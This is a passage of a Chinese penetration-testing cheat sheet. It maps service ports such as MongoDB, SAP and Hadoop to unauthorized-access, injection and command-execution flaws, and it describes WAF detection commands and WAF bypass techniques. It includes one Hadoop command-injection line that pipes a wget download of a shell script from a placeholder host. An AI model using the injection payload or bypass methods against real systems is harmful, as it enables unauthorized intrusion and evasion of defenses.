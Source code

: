 https://shockerli.net/post/memcached-udp-reflection-attack-bug/
27017,27018 / Mongodb
未授权
注入
https://www.anquanke.com/post/id/83763
phpMoAdmin RCE
https://www.aqniu.com/threat-alert/6978.html
50000 / SAP
SAP命令执行
https://www.secpulse.com/archives/20204.html
50070,50030 / hadoop
未授权
https://www.freebuf.com/vuls/173638.html
命令执行
host:50060/pstack?pid=123|wget http://somehost/shell.sh
https://www.seebug.org/search/?keywords=hadoop
其他
http://www.91ri.org/15441.html

**1.3WAF及bypass**

探测WAF
Nmap探测WAF有两种脚本，
一种是http-waf-detect，一种是http-waf-fingerprint。

```
nmap -p port --script=http-waf-detect ip
wafw00f -a http://example.com 　　
sqlmap-u “http://www.vxxxx.org/ex.php?id=1” --identify-waf 　　
```

bypass:

（1）请求真实ip绕过waf：部分watf部署架构的特性，部分waf并不是直接串在目标站点线路上，而是通过DNS解析的形式部署，此时可以先探测到目标站点的真实ip直接请求ip以此绕过waf的检测；

（2）检测内容范围绕过：waf性能限制，检测特定内容前几k或几十K的内容，然后在此特定内容段内填充物用数据， payload放于物用数据后，以此绕过检测；

（3）协议盲区绕过：waf根据自己的防御策略所支持的协议特性，针对该协议内的请求进行检查，但是存在一些协议检测或协议运行机制上的缺陷导致被绕过，例如协议未覆盖、协议解析不正确、协议解析遗漏等；

（4）检测规则绕过：waf工程师规则编写经验、规则覆盖面等问题，来绕过检测，例如利用 MySQL对一些特殊字符处理的特性、语法特性绕过。

（5）文件包含绕过：相对路径、绝对路径。

绕过技术：

1.大小写转换

\2. URL编码

\3. Unicode

\4. HTML编码

5.混合编码

6.使用注释

7.双重编码

8.通配符混淆
